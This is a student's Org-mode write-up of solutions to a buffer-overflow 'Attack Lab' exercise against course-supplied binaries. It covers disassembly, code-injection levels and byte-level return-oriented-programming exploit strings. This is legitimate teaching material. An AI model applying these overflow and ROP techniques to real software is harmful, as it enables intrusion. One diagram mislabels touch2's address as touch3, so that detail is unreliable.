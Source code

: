 #+title: Attack Lab solutions
#+OPTIONS: toc:nil ^:nil

* Intro

Before starting to do some hack, we must keep something in mind.

1. Both CTARGET and RTARGET read strings from standard input. So we should
   confirm the size of =buf= firstly, here it was shown as =BUFFER_SIZE=.

  #+begin_src C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
  #+end_src

2. =BUFFER_SIZE= is known at compile time.

  #+begin_src asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp # important!
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  #+end_src

3. Following instruction need to make sense of:

  #+begin_src asm
# call D
1. pushq %rip
2. jump D

# ret
1. popq %rip

# pushq S
1. subq $8, %rsp
2. movq S, (%rsp)

# popq S
1. movq (%rsp), S
2. addq $8, %rsp
  #+end_src

* Part 1: Code Injection Attacks

After disassembling the =ctarget.c=, we got enough information about
those functions, like =touch1=, =touch2=, =touch3=.

** Level 1

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute
an existing procedure.
Function getbuf is called within CTARGET by a function =test= having the following C code:

#+begin_src C
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
#+end_src

#+begin_src asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
#+end_src

Note: =touch1= does NOT need any parameter.

** Level 2

Phase 2 involves injecting a small amount of code as part of your exploit string.
Function =touch2= having the following C representation:

#+begin_src C
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
#+end_src

#+begin_src asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp # memory alignment
  4017f0:	89 fa                	mov    %edi,%edx # argument into parameter
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	call   401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	call   401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	call   400e40 <exit@plt>
#+end_src

Note: =touch2= have a parameter named as /=val=/ stored in =$rsp=.

** Level 3

Phase 3 also involves a code injection attack, but passing a string as argument.

#+begin_src C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}


void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
#+end_src

#+begin_src asm
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401854:	41 89 fc             	mov    %edi,%r12d
  401857:	48 89 f5             	mov    %rsi,%rbp
  40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401861:	00 00
  401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
  401868:	31 c0                	xor    %eax,%eax
  40186a:	e8 41 f5 ff ff       	call   400db0 <random@plt>
  40186f:	48 89 c1             	mov    %rax,%rcx
  401872:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  401879:	0a d7 a3
  40187c:	48 f7 ea             	imul   %rdx
  40187f:	48 01 ca             	add    %rcx,%rdx
  401882:	48 c1 fa 06          	sar    $0x6,%rdx
  401886:	48 89 c8             	mov    %rcx,%rax
  401889:	48 c1 f8 3f          	sar    $0x3f,%rax
  40188d:	48 29 c2             	sub    %rax,%rdx
  401890:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
  401894:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  401898:	48 c1 e0 02          	shl    $0x2,%rax
  40189c:	48 29 c1             	sub    %rax,%rcx
  40189f:	48 8d 1c 0c          	lea    (%rsp,%rcx,1),%rbx
  4018a3:	45 89 e0             	mov    %r12d,%r8d
  4018a6:	b9 e2 30 40 00       	mov    $0x4030e2,%ecx
  4018ab:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
  4018b2:	be 01 00 00 00       	mov    $0x1,%esi
  4018b7:	48 89 df             	mov    %rbx,%rdi
  4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
  4018bf:	e8 ac f5 ff ff       	call   400e70 <__sprintf_chk@plt>
  4018c4:	ba 09 00 00 00       	mov    $0x9,%edx
  4018c9:	48 89 de             	mov    %rbx,%rsi
  4018cc:	48 89 ef             	mov    %rbp,%rdi
  4018cf:	e8 cc f3 ff ff       	call   400ca0 <strncmp@plt>
  4018d4:	85 c0                	test   %eax,%eax
  4018d6:	0f 94 c0             	sete   %al
  4018d9:	0f b6 c0             	movzbl %al,%eax
  4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
  4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  4018e8:	00 00
  4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
  4018ec:	e8 ef f3 ff ff       	call   400ce0 <__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  4018f5:	5b                   	pop    %rbx
  4018f6:	5d                   	pop    %rbp
  4018f7:	41 5c                	pop    %r12
  4018f9:	c3                   	ret

00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	call   40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	call   400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	call   401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	call   400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	call   401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	call   400e40 <exit@plt>
#+end_src

*Note:*

To jump to =touch3=, we have several different ways to make it.

#+begin_quote
1. If we decide to use =pushq= and =ret=, then we will fall in trouble, because we only have
   0x28 bytes for exploit code, and  =touch3= use a =pushq=, which can eliminate our data
   stored in stack(look deep in /=%rsp=/). After entered =touch3=, we must ensure the address
   stored our cookie must be still alive. (We *ONLY* have 0x28 bytes! If we have more than this,
   maybe we can let this method works very well, but, this is the rule.)
2. Anyway, however, =movq= can also emulate what does =pushq= do, just use it.
3. Another way, we can compute and place our data in stack with good caution, so that only =movq= is needed.
#+end_quote

* Part 2: Return-Oriented Programming

Since randomization of stack position is enabled, as well as stack has been marked as non-executable,
we can't use ordinary way to do code injection. In the section, instead of, we need to make use of existing
code for our hacking.

Technicology enabled:

#+begin_quote
1. stack randomization
2. stack as nonexecutable
#+end_quote

** Level 1

Though there is not any word saying that we should do level-1 task listed in above section,
we can infer that /level-1.out/ still works well here without any modification. (It isn't dependent
on string buffer exploit.)

** Level 2

The mission of this part is kinda same as it in /code injection/, except that we can't execute
code in the string buffer.

Let's do some simple analysis here:

#+begin_src plantuml
title call stack

main <-> launch: 1
launch <-> test: 2
test <-> getbuf: 3
getbuf <-> Gets: 4
#+end_src

#+RESULTS:
[[file:/tmp/babel-XDKb0v/plantuml-HpTfSl.png]]

Be careful with manipulations of =%rsp=:

#+begin_src plantuml
@startuml
object Stack {
        test(0x401968)
        ..
        sub    $0x8,%rsp
        ...
        call   4017a8 <getbuf>
        ...
        add    $0x8,%rsp
        --
        getbuf(0x4017a8)
        ..
        sub    $0x28,%rsp
        ...
        call   401b60 <Gets>
        ...
        add    $0x28,%rsp
        ...
        ret
}
@enduml
#+end_src

#+RESULTS:
[[file:/tmp/babel-XDKb0v/plantuml-BiXaWv.png]]

Layout of =buf[BUFFER_SIZE]= /(overflowed)/:

#+begin_example
00 00 00 00 00 00 00 00 /* buf[0]-buf[8] */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* buf[32]-buf[40], start your code below */
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie string */
a2 19 40 00 00 00 00 00 /* movq %rax,%rdi */
ec 17 40 00 00 00 00 00
#+end_example

So the representation of full process of address redirection comes out below:

#+begin_src plantuml
getbuf -> 0x4019ab: ret
0x4019ab -> 0x4019a2: popq %rax; ret
0x4019a2 -> 0x4017ec: movq %rax,%rdi; ret

0x4017ec: touch3
#+end_src

#+RESULTS:
[[file:/tmp/babel-XDKb0v/plantuml-xdtzxO.png]]

** Level 3

Similarly, analysis of above could be applied to here. For time-saving, I make a short explanation:

#+begin_quote
1. Because the existence of stack randomization, we must use %rsp to locate our exploit string.
2. If we put exploit string as next instruction adjacent =%rsp=, the program can NOT continue. so
   we should put it above the address of =touch3=.
3. We need to calculate a specific address for cookie.
#+end_quote

Just post the result here:

#+begin_example
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
cc 19 40 00 00 00 00 00 /* popq %rax */
20 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* movl %eax,%edx */
69 1a 40 00 00 00 00 00 /* movl %edx,%ecx */
27 1a 40 00 00 00 00 00 /* movl %ecx,%esi */
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 /* cookie */
#+end_example
